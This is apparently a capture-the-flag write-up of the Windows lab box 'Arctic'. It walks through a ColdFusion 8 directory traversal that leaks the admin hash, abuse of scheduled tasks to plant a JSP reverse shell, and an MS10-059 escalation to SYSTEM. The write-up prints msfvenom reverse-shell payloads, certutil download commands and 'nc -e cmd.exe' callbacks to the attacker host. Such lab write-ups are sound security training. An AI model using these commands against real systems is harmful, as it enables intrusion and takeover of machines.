

## Overview

Arctic is a Windows box running IIS and Cold Fusion 8.0.1. This version of Cold Fusion is vulnerable to directory traversal vulnerability that exposes the admin password hash. The cracked hash was found with a quick internet search and once logged in I was able to abuse the "schedule tasks" functionality of Cold Fusion to get a reverse shell. I used Windows-Exploit-Suggester (wes) to identify a list of potential exploits and used MS10-059 to create a reverse shell as 'nt authority\system'.

## Enumeration

* Microsoft Windows Server 2008 R2 Standard 6.1.7600 N/A Build 7600
* Cold Fusion 8.0.1.195765
* Java Version: 1.6.0_04

**Open Ports**

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.11 -oN /mnt/data/boxes/arctic/_full_tcp_nmap.txt
```

* 135/tcp - Microsoft Windows RPC
* 8500/tcp - http (Cold Fusion)
* 49154/tcp - Microsoft Windows RPC

## Steps (User)

After reviewing the nmap results I decide to start with port 8500. Opening a web browser and directing it to http://10.10.10.11:8500 shows a directory listing.



Clicking through some of the folders I came across http://10.10.10.11:8500/CFIDE/administrator which brought me to an Adobe Coldfusion 8 Administrator login page. 



I tried some common passwords (admin,password,etc) but none worked. A quick internet search for "coldfusion 8 exploit" turned up a directory traversal vulnerability

https://www.exploit-db.com/exploits/14641

I decided not to modify the python script because it was simple enough to paste the path directly into my browser - which revealed the password hash right on the logon page. 

http://10.10.10.11/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en



Doing an internet search for the password hash is always worth a shot, in this case i came across a site that had already cracked the hash (sha1.gromweb.com) which I used to log in.



```
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 (happyday)
```

Doing some searching on Cold Fusion 8 exploits I found that a scheduled task can be created to write data to a file which could be executed to create a reverse shell. https://nets.ec/Coldfusion_hacking. This requires that I host the file (via http) that I want to be copied to the target system.

> Note: There is an extra step if using an exe. Create a system probe that launches an .exe upon failure. The payload created with msfvenom needs to be created accordingly: msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4200 -f exe -o shell_reverse.exe

To generate the payload I used MSFVenom and started up the python http server.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.13 LPORT=4200 -o rshell.jsp
python3 -m http.server 80
```

I needed to find a path I could write to which this page very helpfully provided: http://10.10.10.11:8500/CFIDE/administrator/reports/index.cfm



**Steps to create the task**

* Click Debugging & Logging | Scheduled Tasks
* Click "Schedule New Task"
* Type in a task name
* Type in the path and name for the jsp file http://10.10.14.13/rshell.jsp
* Type in the path and name of the file: c:\wwwroot\CFIDE\rshell.jsp
* Click submit



On the main schedule screen click "Run Scheduled Task"



The task ran successfully and downloaded the rshell.jsp file to the CFIDE folder



I started up a netcat listener and clicked on the rshell.jsp file to run it and the target successfully called back.

```
nc -lvnp 4200
```



## Steps (root/system)

Since this is an older box I used Windows Exploit Suggester. For newer boxes there are other options such as wesng, Sherlock, or Watson.

According to wesng github page:

> I developed WES-NG because while GDSSecurity's Windows-Exploit-Suggester worked excellently for operating systems in the Windows XP and Windows Vista era, GDSSecurity's Windows-Exploit-Suggester does not work for operating systems like Windows 10 and vulnerabilities published in recent years. This is because Microsoft replaced the Microsoft Security Bulletin Data Excel file [1] on which GDSSecurity's Windows-Exploit-Suggester is fully dependent, by the MSRC API [2]. The Microsoft Security Bulletin Data Excel file has not been updated since Q1 2017, so later operating systems and vulnerabilities cannot be detected. 

Moving forward with wes; this tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```



> In the results [E] means exploitdb POC, and [M] means metasploit module.

This box appears to be vulnerable to MS10-059 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing. 

I put a copy of the exploit and netcat into my working directory and used the certutil utility to download them to the target box.

```
local: cp ~/tools/windows-binaries/nc.exe .
local: wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
local: nc -lvnp 4201
target: certutil -urlcache -split -f http://10.10.14.13/MS10-059.exe
target: certutil -urlcache -split -f http://10.10.14.13/nc.exe
```

This exploit takes a parameter and runs it in an elevated context. I decided to go with netcat to create a reverse shell.

```
ms10-059.exe "nc -e cmd.exe 10.10.14.13 4201"
```

I received a callback and had a shell as 'nt authority/system'


